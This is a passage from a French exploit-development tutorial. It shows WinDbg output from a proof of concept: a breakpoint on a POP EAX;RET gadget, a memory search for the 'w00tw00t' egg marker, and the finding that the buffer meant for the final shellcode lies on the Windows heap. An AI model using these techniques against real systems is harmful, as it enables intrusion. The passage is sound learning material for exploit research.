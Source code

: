 Exécution de la preuve de concept et positionnement d'un point d'arrêt sur l'adresse où se trouve la série d'instructions `POP EAX;RET` :

- On trouve le *pattern* `w00tw00t` une seule fois en mémoire

```powershell
0:009> bp 0x00418674
#
0:009> g
Breakpoint 0 hit
[...]
00418674 58              pop     eax
0:004> s -a 0x0 L?80000000 w00tw00t
01965aa6  77 30 30 74 77 30 30 74-44 44 44 44 44 44 44 44  w00tw00tDDDDDDDD
#
0:004> db 01965aa6 + 0n408 - 4 L4
01965c3a  44 44 44 44                                      DDDD
```

On a donc identifié avec succès un second *buffer* on l'on va pouvoir stocker notre shellcode final.

#### Gestionnaire de Tas Windows

On a trouve notre pattern a l'adresse mémoire `01965aa6`. Cependant, si on affiche la pile via `!teb` on se rend compte que l'adresse n'est pas dans la pile. On utilise la commande `!address` pour obtenir des informations sur l'adresse fournie en paramètre. L'adresse est présente sur la `heap` (tas) :

```powershell
#
0:004> s -a 0x0 L?80000000 w00tw00t
01965aa6  77 30 30 74 77 30 30 74-44 44 44 44 44 44 44 44  w00tw00tDDDDDDDD
#
0:004> !teb
TEB at 00385000
    ExceptionList:        046cff70
    StackBase:            046d0000
    StackLimit:           046cc000
[...]
0:004> !address 01965aa6                 
[...]
Usage:                  Heap
Base Address:           01960000
End Address:            0196f000
[...]
```

Le *Windows Heap Memory Manager* est une couche logicielle qui se situe au-dessus des interfaces de la mémoire virtuelle fournies par Windows. Cet outil permet aux applications de demander et relâcher dynamiquement de la mémoire à travers un panel d'API Windows (`VirtualAllocEx` `VirtualFreeEx` - `HeapAlloc` -  `HeapFree`).

Dans Windows, quand un nouveau processus se lance, le `Heap Manager` va automatiquement créer une nouvelle `heap` appellee *default process heap*. À haut niveau, les `heap` sont de gros morceaux de mémoire qui sont divisés en petit morceau pour répondre aux demandes dynamiques d'allocation mémoire.
